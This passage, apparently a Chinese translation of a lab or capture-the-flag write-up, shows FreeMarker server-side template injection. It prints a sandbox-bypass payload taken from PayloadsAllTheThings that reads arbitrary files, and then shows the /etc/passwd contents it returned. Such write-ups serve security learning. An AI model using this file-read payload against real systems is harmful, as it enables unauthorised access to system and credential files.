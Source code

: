 我们可以看到我们正面临着同样的防御。

因为他们解释说，如果设置了这种防御，我们就不能执行代码，我按下了“我相信”按钮。

在这里，当一切都失去了“有效载荷所有的东西”来拯救。

[](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker) [## 主 swisskyrepo 上的 PayloadsAllTheThings/服务器端模板注入

### Web 应用程序安全和 Pentest/CTF-payloads all the things/服务器端的有用负载和旁路列表…

github.com](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker) 

找到了一个有效负载来读取沙箱内的文件。

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
Convert the returned bytes to ASCII
```

让我们试试看，并阅读/etc/passwd。

![](img/43a1fea5d25d29518fd2952cd8b74ba4.png)

现在将字节转换成 ASCII 字符。

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```